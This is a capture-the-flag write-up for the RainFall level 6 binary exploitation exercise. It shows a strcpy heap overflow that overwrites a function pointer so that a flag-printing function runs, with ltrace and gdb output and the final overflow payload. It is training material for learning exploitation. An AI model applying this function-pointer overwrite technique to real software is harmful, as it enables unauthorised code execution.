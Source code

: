 # Level 6

In the source, we see two functions m and n.
In the main there is a function pointer being set to m which just prints "Nope". But n would print out the flag for us.
If only we could call it!

In comes strcpy to save the day.
Because the `char* dest` is located before our function pointer in memory, we can override it by overflowing the buffer.

As we can see, the strcpy copies over the entire argv[1].


We can get the addresses from malloc by running `ltrace`.
```shell
level6@RainFall:~$ ltrace ./level6 
__libc_start_main(0x804847c, 1, 0xbffff7f4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                                                      = 0x0804a008
malloc(4)                                                       = 0x0804a050
strcpy(0x0804a008, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
level6@RainFall:~$ 
```

```shell
level6@RainFall:~$ gdb -q level6 
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) b *main+78
Breakpoint 1 at 0x80484ca
(gdb) run $(python -c 'print 72*"A"')
Starting program: /home/user/level6/level6 $(python -c 'print 72*"A"')

Breakpoint 1, 0x080484ca in main ()
(gdb) x/40x 0x0804a008
0x804a008:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a048:	0x41414141	0x41414141	0x08048400	0x00000000
0x804a058:	0x00000000	0x00020fa9	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) 
```


```shell
level6@RainFall:~$ ./level6 $(python -c 'print 72 * "A" + "\x54\x84\x04\x08"')
[...]
```
